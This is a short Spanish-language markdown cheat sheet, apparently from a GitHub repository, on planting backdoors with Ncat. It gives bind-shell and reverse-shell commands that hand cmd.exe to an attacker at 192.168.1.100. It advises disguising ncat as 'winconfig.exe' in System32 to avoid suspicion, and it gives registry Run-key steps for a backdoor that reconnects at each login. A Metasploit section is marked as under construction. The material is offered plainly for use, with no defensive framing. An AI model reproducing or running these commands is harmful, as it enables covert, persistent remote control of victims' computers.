 # System Attacks Cheat Sheet

- [Backdor](#backdoor)
  - [Ncat](#ncat)
    - [Ejemplo básico](#ncat-ejemplo-1)
    - [Cliente conectándose a la máquina atacante y entregando una shell](#ncat-ejemplo-2)
    - [Backdoor persistente](#ncat-ejemplo-3)
  - [Metasploit con sesión en Meterpreter](#metasploit-meterpreter)

<h2 id="backdoor">Backdoor</h2>

<h3 id="ncat"><a href="https://nmap.org/ncat/">Ncat</a></h3>

Utilidad de red que permite leer y escribir datos a través de la red usando la CLI.

Para la utilización de esta herramienta en la victima, se recomienda cambiar su nombre, con la finalidad de no levantar sospechas (ejemplo: usar el nombre winconfig.exe, y guardarlo en System32).

`ncat [option]`

```
-l: Se deja al equipo en modo escucha
-p [port]: Se define el puerto con el cual se trabajará
-e [exe]: Archivo a ejecutar cuando se inicie la comunicación entre servidor y cliente
-v: Verbose
```

<h4 id="ncat-ejemplo-1">Ejemplo básico</h4>

Servidor windows, escuchando en el Puerto 5555 y al momento de iniciar la comunicación iniciará el software CMD:

`wincofig -l -p 5555 -e cmd.exe`

Cliente linux que obtiene una shell desde la máquina windows:

`ncat 192.168.1.200 -p 5555`

<h4 id="ncat-ejemplo-2">Cliente conectándose a la máquina atacante y entregando una shell</h4>

Atacante:

`ncat -l -p 5555 -v`

Víctima:

`winconfig -e cmd.exe 192.168.1.100 5555`

<h4 id="ncat-ejemplo-3">Backdoor persistente</h4>

Atacante:

`ncat -l -p 5555 -v`

Víctima:

1. run > regedit
2. Ir a HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
3. Clic derecho > New > String Value
4. Ingresar los siguientes datos:
  - `Name=winconfig`
  - `Data=”C:\Windows\System32\winconfig.exe 192.168.1.100 5555 –e cmd.exe”`

> Para que esto funcione, el usuario debe logearse en su cuenta. Una vez logeado, se iniciará el backdoor.

<h3 id="metasploit-meterpreter">Metasploit con sesión en Meterpreter</h3>

EN CONSTRUCCIÓN
